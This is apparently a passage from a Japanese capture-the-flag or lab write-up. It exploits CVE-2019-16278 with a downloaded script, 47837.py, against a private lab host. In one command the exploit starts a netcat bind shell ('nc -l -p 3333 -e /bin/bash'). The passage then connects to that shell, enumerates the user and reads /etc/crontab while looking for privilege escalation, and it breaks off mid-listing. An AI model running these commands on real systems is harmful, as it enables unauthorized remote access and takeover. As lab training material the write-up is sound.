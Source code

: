 Copied to: /home/captureamerica/Downloads/47837.py


captureamerica@kali:~/Downloads$ nkf -w -Lu --overwrite 47837.py 
</pre>

<br>
あ、あと、47837.py のアタマの方にコメント等が入っているので、消しておかないとエラーになります。

ちなみに、CVE-2019-16278のようです。

引数で任意のコマンドが指定できるようです。バックドアをしかけます。

<pre>
captureamerica@kali:~/Downloads$ ./47837.py 172.30.0.2 80 "nc -l -p 3333 -e /bin/bash"


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


</pre>

<br>
これで、別のターミナルからncで繋ぐことができます。

<pre>
captureamerica@kali:~/Downloads$ nc 172.30.0.2 3333
id
uid=1000(webserver) gid=1000(webserver) groups=1000(webserver)

</pre>


<br>
いろいろ探した結果、crontabの中で以下が見つかりました。/usr/bin/healthcheck がroot権限で動いているようです。

<pre>
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
